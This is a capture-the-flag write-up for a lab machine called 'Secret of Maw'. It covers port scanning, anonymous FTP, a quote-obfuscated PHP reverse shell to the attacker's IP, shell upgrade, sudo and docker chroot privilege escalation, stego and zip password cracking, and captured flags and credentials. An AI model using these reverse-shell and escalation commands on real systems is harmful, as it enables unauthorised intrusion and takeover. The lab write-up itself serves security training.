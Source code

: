 # Secret of Maw

## Enumeration
```bash
tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-20 13:54 BST
Nmap scan report for 10.10.29.3
Host is up (0.037s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.37.214
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Maw
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.94 seconds
```
```bash
ftp <IP>

get .nomes

└─$ cat nomes 
You find a nome hidding around, you hug it... You feel a little bit relieved!
```
```
/discrete
```
## Exploitation

### On this page we can execute a command but there are shell restrictions

```bash
'p''h''p' -r '$sock=fsockopen("10.8.37.214",4445);exec("sh <&3 >&3 2>&3");'
```

### I got a shell as six user
### I upgrade my shell with this command
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
## Privilege Escalation
```bash
sudo -u six /home/six/.musicbox

cd /home/six
```

## User FLAG
```cat user.txt``` : EPI{I_MuS7_F1nD_@_W4y_0Ut}

### I used wget to download the files in /var/www 
```bash
└─$ stegseek musicbox.jpg 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "nightmare"
[i] Original filename: "backup.zip".
[i] Extracting to "musicbox.jpg.out"
```

help : https://tiagotavares.io/2020/12/chillhack-1-vulnhub/
help : https://blog.keiran.scot/privilege-escallation-with-docker-56dc682a6e17

### I thought I had found something but it was a rabbit hole
```bash
mysql -u root -p : !@m+her00+@db

mono : a596a5afee6659e857db41cd41497102 : not found 

└─$ echo SV9NdVN0X1N0MHBfVGgzX1RoaW5fbTRu | base64 -d
I_MuSt_St0p_Th3_Thin_m4n 
```
### I used zip2john to crack the backup.zip password

I forgot to write the command

### I got a hash that I cracked with john
```bash
unzip backup.zip : Telekinesis
```
### In the file of the .zip folder, I found a password hash in base64
### I go on the ssh session of the user, I did sudo -l and found a command with specific write using docker
```
docker run -it -v /:/mnt alpine chroot /mnt
```
## Root FLAG
```cat /root/root.txt``` : EPI{Th3_Th1N_M4n_1S_C0m1Ng}



